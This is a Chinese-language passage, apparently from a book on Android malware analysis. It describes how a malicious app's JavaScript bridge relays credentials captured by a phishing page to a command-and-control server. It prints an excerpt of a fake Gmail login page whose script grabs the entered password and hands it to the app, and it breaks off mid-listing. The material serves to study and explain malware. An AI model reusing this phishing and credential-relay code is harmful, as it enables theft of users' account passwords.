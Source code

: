 *清单 4-29：* WebAppInterface *类作为应用与钓鱼页面之间的桥梁。*

该类定义了两个方法，并使用`@JavascriptInterface`注解标记，使它们可以被 HTML 页面的 JavaScript 代码调用。`send_log_injects`方法只是简单地调用了更有趣的方法`returnResult`。当应用接收到被窃取的凭证时，它会发出一个新的命令与控制消息，类型为`inj_success`，将窃取的凭证发送到服务器。

看一个例子 HTML 页面，比如钓鱼 Gmail 账户信息的页面，可以更容易理解这一互动。清单 4-30 展示了钓鱼页面的摘录，该页面从用户那里获取表单输入，将其转化为 JSON 字符串，并发送到应用。

```
<body>
    <div id="googlemail" style="display: none;">
    ...
    <input class="googlelogininput" id="passwordinput"
           type="password" name="password" placeholder="Password">

    <div class="linktext forgotemail">Forgot password?</div>
    <div class="spacer"></div>
    <button class="button" onclick="checkPassword();">Next</button>
    ...
</body>

function checkPassword() {
    if(document.getElementById('passwordinput').value.length > 5) {
        process('googlemail');
    }
}

function process(formId) {
    var ua = navigator.userAgent.toLowerCase();
    if(ua.indexOf("android") > -1) {
        try {
            Android.send_log_injects(formToJSONbyName(
